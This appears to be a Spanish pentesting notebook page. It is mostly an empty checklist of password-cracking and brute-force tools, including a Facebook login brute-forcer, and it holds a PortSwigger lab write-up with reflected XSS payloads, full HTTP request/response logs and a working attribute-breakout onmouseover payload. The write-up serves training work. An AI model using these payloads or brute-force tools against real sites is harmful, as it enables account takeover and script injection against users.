*   [ ] JOHN THE RIPPER👈 --------------------------------->[https://www.kali.org/tools/john/ ](https://www.kali.org/tools/john/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/john-the-ripper)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] JOHN THE RIPPER👈 --------------------------------->[https://www.kali.org/tools/john/ ](https://www.kali.org/tools/john/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/john-the-ripper)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] JOHN THE RIPPER👈 --------------------------------->[https://www.kali.org/tools/john/ ](https://www.kali.org/tools/john/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/john-the-ripper)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HASHCAT👈 --------------------------------->[https://www.kali.org/tools/hashcat/](https://www.kali.org/tools/hashcat/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] RAINBOWCRACK👈 --------------------------------->[https://www.kali.org/tools/rainbowcrack/](https://www.kali.org/tools/rainbowcrack/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] OPHCRACK👈 --------------------------------->[https://www.kali.org/tools/ophcrack/](https://www.kali.org/tools/ophcrack/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CRACKSTATION👈 --------------------------------->[https://crackstation.net/](https://crackstation.net/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] AIRCRACK-NG👈 --------------------------------->[https://www.kali.org/tools/aircrack-ng/ ](https://www.kali.org/tools/aircrack-ng/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/aircrack-ng-wireless-wi-fi-auditoria-y-fuerza-bruta-a-handshake)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] AIRCRACK-NG👈 --------------------------------->[https://www.kali.org/tools/aircrack-ng/ ](https://www.kali.org/tools/aircrack-ng/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/aircrack-ng-wireless-wi-fi-auditoria-y-fuerza-bruta-a-handshake)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CAIN Y ABEL👈 --------------------------------->[https://github.com/xchwarze/Cain](https://github.com/xchwarze/Cain)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HYDRA👈 --------------------------------->[https://www.kali.org/tools/hydra/ ](https://www.kali.org/tools/hydra/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/hydra-fuerza-bruta)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HYDRA👈 --------------------------------->[https://www.kali.org/tools/hydra/ ](https://www.kali.org/tools/hydra/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/hydra-fuerza-bruta)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HYDRA👈 --------------------------------->[https://www.kali.org/tools/hydra/ ](https://www.kali.org/tools/hydra/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/hydra-fuerza-bruta)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] MEDUSA👈 --------------------------------->[https://www.kali.org/tools/medusa/ ](https://www.kali.org/tools/medusa/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/medusa)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] MEDUSA👈 --------------------------------->[https://www.kali.org/tools/medusa/ ](https://www.kali.org/tools/medusa/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/medusa)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] DAVEGRO1👈 --------------------------------->[https://github.com/octomagon/davegrohl](https://github.com/octomagon/davegrohl)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] ElcomSoft Distributed Password Recovery👈 --------------------------------->[https://www.elcomsoft.es/edpr.html](https://www.elcomsoft.es/edpr.html)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CRACK RAR👈 --------------------------------->[https://github.com/TermuxHackz/Crack-rar](https://github.com/TermuxHackz/Crack-rar)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CRACK NINJA RAR👈 --------------------------------->[https://github.com/SHUR1K-N/RARNinja-RAR-Password-Cracking-Utility](https://github.com/SHUR1K-N/RARNinja-RAR-Password-Cracking-Utility)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NCRACK👈 --------------------------------->[https://www.kali.org/tools/ncrack/](https://www.kali.org/tools/ncrack/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CEWL WORDLIST👈 --------------------------------->[https://www.kali.org/tools/cewl/ ](https://www.kali.org/tools/cewl/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/cewl)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CRUNCH WORDLIST👈 --------------------------------->[https://www.kali.org/tools/crunch/ ](https://www.kali.org/tools/crunch/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/crunch)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] P4Iwordlists👈 --------------------------------->[https://paimonhacking.gitbook.io/p4im0n\_h4cking/curso-hacking-con-python/generador-de-wordlist-para-fuerza-bruta-p4iwordlist.py-1.2v](https://paimonhacking.gitbook.io/p4im0n\_h4cking/curso-hacking-con-python/generador-de-wordlist-para-fuerza-bruta-p4iwordlist.py-1.2v)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CYBERCHEF👈 --------------------------------->[https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CYBERCHEF👈 --------------------------------->[https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CYBERCHEF👈 --------------------------------->[https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BASE64 DECODE👈 --------------------------------->[https://www.base64decode.org/](https://www.base64decode.org/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BASE64 DECODE👈 --------------------------------->[https://www.base64decode.org/](https://www.base64decode.org/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:

***

***

</details>

🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨

<details>

<summary>💪 FUERZA BRUTA A LOGINS ❌</summary>

**FUERZA BRUTA A LOGINS**

*   [ ] HYDRA👈 --------------------------------->[https://www.kali.org/tools/hydra/ ](https://www.kali.org/tools/hydra/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/hydra-fuerza-bruta)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HYDRA👈 --------------------------------->[https://www.kali.org/tools/hydra/ ](https://www.kali.org/tools/hydra/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/hydra-fuerza-bruta)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HYDRA👈 --------------------------------->[https://www.kali.org/tools/hydra/ ](https://www.kali.org/tools/hydra/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/hydra-fuerza-bruta)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] MEDUSA👈 --------------------------------->[https://www.kali.org/tools/medusa/ ](https://www.kali.org/tools/medusa/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/medusa)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] MEDUSA👈 --------------------------------->[https://www.kali.org/tools/medusa/ ](https://www.kali.org/tools/medusa/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/medusa)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] MEDUSA👈 --------------------------------->[https://www.kali.org/tools/medusa/ ](https://www.kali.org/tools/medusa/)--->[PDF-TOOL](https://paimonhacking.gitbook.io/p4im0n\_h4cking/manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/medusa)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NCRACK👈 --------------------------------->[https://www.kali.org/tools/ncrack/](https://www.kali.org/tools/ncrack/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] 161 ONESIXTYONE👈 --------------------------------->[https://www.kali.org/tools/onesixtyone/](https://www.kali.org/tools/onesixtyone/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] THC-PPTP-BRUTER👈 --------------------------------->[https://www.kali.org/tools/thc-pptp-bruter/](https://www.kali.org/tools/thc-pptp-bruter/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BURP SUITE👈 --------------------------------->[https://portswigger.net/web-security ](https://portswigger.net/web-security)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/burpsuite.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BURP SUITE👈 --------------------------------->[https://portswigger.net/web-security ](https://portswigger.net/web-security)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/burpsuite.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BURP SUITE👈 --------------------------------->[https://portswigger.net/web-security ](https://portswigger.net/web-security)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/burpsuite.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CRACKMAPEXEC👈 --------------------------------->[https://www.kali.org/tools/crackmapexec/](https://www.kali.org/tools/crackmapexec/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CROWBAR RDP👈 --------------------------------->[https://www.kali.org/tools/crowbar/](https://www.kali.org/tools/crowbar/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] THE CRACKER PDF,ZIP,RAR,LOGIN👈 --------------------------------->[https://github.com/XDeadHackerX/The\_Cracker](https://github.com/XDeadHackerX/The\_Cracker)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] THC-HYDRA👈 --------------------------------->[https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] THC-HYDRA👈 --------------------------------->[https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] T14M4T scaneo de servicios en puertos y fuerza bruta automatizado👈 --------------------------------->[https://github.com/MS-WEB-BN/t14m4t](https://github.com/MS-WEB-BN/t14m4t)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FACEBOOK-BRUTE-FORCE👈 --------------------------------->[https://github.com/likhonsible/Facebook-Brute-Force](https://github.com/likhonsible/Facebook-Brute-Force)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:

***

***

</details>

🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧🟧

<details>

<summary>🛠️ SCRIPT DE EXPLOIT Y PAYLOADS ✔️</summary>

**SCRIPT DE EXPLOIT Y PAYLOADS**

*   [x] NOSOTROS Y CHAT GPT👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    PROBANDO PAYLOADS:



    </h1><script>alert('P4IM0N-XSS')</script>



    "<script>alert('P4IM0N-XSS')</script>


    &quot;</h1><script>alert('P4IM0N-XSS')</script>


    "><script>alert('P4IM0N-XSS')</script>


    P4IM0N"><script>alert('P4IM0N-XSS')</script>      ------> (CARGO  P4IM0N bien dentro de parametro VALUE)


    P4IM0N" onmouseover=<script>alert('P4IM0N-XSS')</script>


    P4IM0N" onmouseover=javascript:alert('P4IM0N-XSS')


    P4IM0N" onmouseover=javascript:alert('P4IM0N-XSS')<!--



    PAYLOAD QUE FUNCIONO:


    P4IM0N" onmouseover=javascript:alert('P4IM0N-XSS')<!--
    ```

    * CONCLUSION:DIMOS CON EL PAYLOAD CORRECTO.

***

***

</details>

🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥

<details>

<summary>🤯 EXPLOTACION ✔️</summary>

**EXPLOTACION**

*   [x] BURP SUITE👈 --------------------------------->[https://portswigger.net/web-security ](https://portswigger.net/web-security)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/burpsuite.md)

    ```python
    REQUEST NORMAL:



    GET /?search=century HTTP/2
    Host: 0a6900d60325fb2e82c3ec8200f20038.web-security-academy.net
    Cookie: session=KCXh7QYsqFuXFgcuy3GN7h1rUXFmA9Pk
    Cache-Control: max-age=0
    Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Linux"
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://0a6900d60325fb2e82c3ec8200f20038.web-security-academy.net/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: es-419,es;q=0.9,en;q=0.8



    RESPONSE NORMAL:




    HTTP/2 200 OK
    Content-Type: text/html; charset=utf-8
    X-Frame-Options: SAMEORIGIN
    Content-Length: 3209

    <!DOCTYPE html>
    <html>
        <head>
            <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
            <link href=/resources/css/labsBlog.css rel=stylesheet>
            <title>Reflected XSS into attribute with angle brackets HTML-encoded</title>
        </head>
        <body>
            <script src="/resources/labheader/js/labHeader.js"></script>
            <div id="academyLabHeader">
                <section class='academyLabBanner'>
                    <div class=container>
                        <div class=logo></div>
                            <div class=title-container>
                                <h2>Reflected XSS into attribute with angle brackets HTML-encoded</h2>
                                <a class=link-back href='https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded'>
                                    Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                    <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                        <g>
                                            <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                            <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                        </g>
                                    </svg>
                                </a>
                            </div>
                            <div class='widgetcontainer-lab-status is-notsolved'>
                                <span>LAB</span>
                                <p>Not solved</p>
                                <span class=lab-status-icon></span>
                            </div>
                        </div>
                    </div>
                </section>
            </div>
            <div theme="blog">
                <section class="maincontainer">
                    <div class="container is-page">
                        <header class="navigation-header">
                            <section class="top-links">
                                <a href=/>Home</a><p>|</p>
                            </section>
                        </header>
                        <header class="notification-header">
                        </header>
                        <section class=blog-header>
                            <h1>0 search results for 'century'</h1>
                            <hr>
                        </section>
                        <section class=search>
                            <form action=/ method=GET>
                                <input type=text placeholder='Search the blog...' name=search value="century">
                                <button type=submit class=button>Search</button>
                            </form>
                        </section>
                        <section class="blog-list no-results">
                            <div class=is-linkback>
            <a href="/">Back to Blog</a>
                            </div>
                        </section>
                    </div>
                </section>
                <div class="footer-wrapper">
                </div>
            </div>
        </body>
    </html>



    ---------

    NO SE LOGRA LA INYECCION DEL PAYLOAD POR UNA MEDIDAD E SEGURIDAD POR CODIFICACION:

    El HTML codifica caracteres especiales utilizando entidades HTML. En tu payload, los caracteres <, >, y ' están codificados de la siguiente manera:

    < se codifica como &lt;
    > se codifica como &gt;
    ' se codifica como &apos;





    REQUEST CON PAYLOAD (</h1><script>alert('P4IM0N-XSS')</script>):



    GET /?search=</h1><script>alert('P4IM0N-XSS')</script> HTTP/2
    Host: 0a6900d60325fb2e82c3ec8200f20038.web-security-academy.net
    Cookie: session=KCXh7QYsqFuXFgcuy3GN7h1rUXFmA9Pk
    Cache-Control: max-age=0
    Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Linux"
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://0a6900d60325fb2e82c3ec8200f20038.web-security-academy.net/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: es-419,es;q=0.9,en;q=0.8




    RESPONSE CON PAYLOAD (</h1><script>alert('P4IM0N-XSS')</script>):




    HTTP/2 200 OK
    Content-Type: text/html; charset=utf-8
    X-Frame-Options: SAMEORIGIN
    Content-Length: 3323

    <!DOCTYPE html>
    <html>
        <head>
            <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
            <link href=/resources/css/labsBlog.css rel=stylesheet>
            <title>Reflected XSS into attribute with angle brackets HTML-encoded</title>
        </head>
        <body>
            <script src="/resources/labheader/js/labHeader.js"></script>
            <div id="academyLabHeader">
                <section class='academyLabBanner'>
                    <div class=container>
                        <div class=logo></div>
                            <div class=title-container>
                                <h2>Reflected XSS into attribute with angle brackets HTML-encoded</h2>
                                <a class=link-back href='https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded'>
                                    Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                    <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                        <g>
                                            <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                            <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                        </g>
                                    </svg>
                                </a>
                            </div>
                            <div class='widgetcontainer-lab-status is-notsolved'>
                                <span>LAB</span>
                                <p>Not solved</p>
                                <span class=lab-status-icon></span>
                            </div>
                        </div>
                    </div>
                </section>
            </div>
            <div theme="blog">
                <section class="maincontainer">
                    <div class="container is-page">
                        <header class="navigation-header">
                            <section class="top-links">
                                <a href=/>Home</a><p>|</p>
                            </section>
                        </header>
                        <header class="notification-header">
                        </header>
                        <section class=blog-header>
                            <h1>0 search results for '&lt;/h1&gt;&lt;script&gt;alert(&apos;P4IM0N-XSS&apos;)&lt;/script&gt;'</h1>
                            <hr>
                        </section>
                        <section class=search>
                            <form action=/ method=GET>
                                <input type=text placeholder='Search the blog...' name=search value="&lt;/h1&gt;&lt;script&gt;alert('P4IM0N-XSS')&lt;/script&gt;">
                                <button type=submit class=button>Search</button>
                            </form>
                        </section>
                        <section class="blog-list no-results">
                            <div class=is-linkback>
            <a href="/">Back to Blog</a>
                            </div>
                        </section>
                    </div>
                </section>
                <div class="footer-wrapper">
                </div>
            </div>
        </body>
    </html>








    ---------



    REQUEST CON PAYLOAD QUE FUNCIONO  (P4IM0N" onmouseover=javascript:alert('P4IM0N-XSS')<!--):



    GET /?search=P4IM0N" onmouseover=javascript:alert('P4IM0N-XSS')<!-- HTTP/2
    Host: 0a44003a04838d0480d9cc2b004a00f8.web-security-academy.net
    Cookie: session=pW7PaffTE9Xl2bLIMjsxyBUn98ObQMql
    Cache-Control: max-age=0
    Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Linux"
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://0a44003a04838d0480d9cc2b004a00f8.web-security-academy.net/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: es-419,es;q=0.9,en;q=0.8
    Connection: close




    RESPONSE CON PAYLOAD QUE FUNCIONO  (P4IM0N" onmouseover=javascript:alert('P4IM0N-XSS')<!--):




    HTTP/2 200 OK
    Content-Type: text/html; charset=utf-8
    X-Frame-Options: SAMEORIGIN
    Content-Length: 3324

    <!DOCTYPE html>
    <html>
        <head>
            <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
            <link href=/resources/css/labsBlog.css rel=stylesheet>
            <title>Reflected XSS into attribute with angle brackets HTML-encoded</title>
        </head>
        <body>
            <script src="/resources/labheader/js/labHeader.js"></script>
            <div id="academyLabHeader">
                <section class='academyLabBanner'>
                    <div class=container>
                        <div class=logo></div>
                            <div class=title-container>
                                <h2>Reflected XSS into attribute with angle brackets HTML-encoded</h2>
                                <a class=link-back href='https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded'>
                                    Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                    <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                        <g>
                                            <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                            <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                        </g>
                                    </svg>
                                </a>
                            </div>
                            <div class='widgetcontainer-lab-status is-notsolved'>
                                <span>LAB</span>
                                <p>Not solved</p>
                                <span class=lab-status-icon></span>
                            </div>
                        </div>
                    </div>
                </section>
            </div>
            <div theme="blog">
                <section class="maincontainer">
                    <div class="container is-page">
                        <header class="navigation-header">
                            <section class="top-links">
                                <a href=/>Home</a><p>|</p>
                            </section>
                        </header>
                        <header class="notification-header">
                        </header>
                        <section class=blog-header>
                            <h1>0 search results for 'P4IM0N&quot; onmouseover=javascript:alert(&apos;P4IM0N-XSS&apos;)&lt;!--'</h1>
                            <hr>
                        </section>
                        <section class=search>
                            <form action=/ method=GET>
                                <input type=text placeholder='Search the blog...' name=search value="P4IM0N" onmouseover=javascript:alert('P4IM0N-XSS')&lt;!--">
                                <button type=submit class=button>Search</button>
                            </form>
                        </section>
                        <section class="blog-list no-results">
                            <div class=is-linkback>
            <a href="/">Back to Blog</a>
                            </div>
                        </section>
                    </div>
                </section>
                <div class="footer-wrapper">
                </div>
            </div>
        </body>
    </html>
    ```

    * CONCLUSION: TUVIMOS QUE IMPLEMENTAR UNA CARGA DEL VALOR P4IM0N PARA QUE SE COMPLETE EN EL VALOR DE VALUE Y CERRAMOS CON " LUEGO PAAR EVITAR EL USO DE CORCHETES ANGULARES(MAYOR Y MEOR QUE), DIRECTAMENTE EJECUTAMOS JAVASCRIPT:ALERT Y LO TERMINAMOS CON UN COMENTARIO POR QUE NOS CARGABA AL ULTIMO UNA CODIFICACION QUE INTERRUMPIA LA EJECUCION DEL PAYLOAD, Y BINGO LO RESOLVIMOS.

***

***

</details>

⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔⛔

<details>

<summary>💠 ESCALADA DE PRIVILEGIOS WINDOWS ❌</summary>

**ESCALADA DE PRIVILEGIOS WINDOWS**

*   [ ] NETCAT👈 --------------------------------->[https://www.kali.org/tools/netcat/ ](https://www.kali.org/tools/netcat/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/netcat-conexiones.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NETCAT👈 --------------------------------->[https://www.kali.org/tools/netcat/ ](https://www.kali.org/tools/netcat/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/netcat-conexiones.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NETCAT👈 --------------------------------->[https://www.kali.org/tools/netcat/ ](https://www.kali.org/tools/netcat/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/netcat-conexiones.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://www.metasploit.com/ ](https://www.metasploit.com/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/metasploit.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://www.metasploit.com/ ](https://www.metasploit.com/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/metasploit.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://www.metasploit.com/ ](https://www.metasploit.com/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/metasploit.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SOCAT👈 --------------------------------->[https://www.kali.org/tools/socat/](https://www.kali.org/tools/socat/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/socat-conecciones.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
